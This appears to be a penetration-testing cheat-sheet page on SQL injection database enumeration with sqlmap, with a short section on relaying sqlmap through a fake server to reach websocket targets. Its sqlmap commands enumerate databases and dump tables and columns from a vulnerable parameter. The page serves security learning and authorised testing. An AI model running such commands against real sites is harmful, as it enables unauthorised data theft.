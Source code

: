 ```yaml
---
id: database-enumeration
title: Databases
---
```


import Gist from 'react-gist';

# Database

## sqlmap

<p align="center">
    <img src={require("./assets/sqlmap.png").default}></img>
</p>

Use `-u` to define the target url and `--batch` to use the default behavior without asking for input.

In the next commands, `id` is a query parameter that is vulnerable to SQL injection.

Enumerate databases.

```sh
sqlmap -u "http://website.com/?id=1" --batch --dbs
```

Enumerate tables of a specific database.

```sh
sqlmap -u "http://website.com/?id=1" --batch --tables -D db_name
```

Enumerate tables content of a specific database.

```sh
sqlmap -u "http://website.com/?id=1" --batch --dump -D db_name
```

Enumerate content by specifing table, column, and database.

```sh
sqlmap -u "http://website.com/?id=1" --batch --dump -D db_name -T table_name -C col_name
```

### Using sqlmap with websockets

sqlmap may not support all types of requests, including those made over websockets. Also, working with complex targets can sometimes be cumbersome using sqlmap alone.

To simplify the process, it is possible to set up a fake server as an intermediary. In this way, sqlmap would make a request to the fake server using a common format, and the fake server would then make the more complex request to the actual target.

<p align="center">
    <img src={require("./assets/sqlmap_over_websockets.png").default}></img>
</p>

<Gist id="4adec402e51df2bf3e35066172abaebf" />
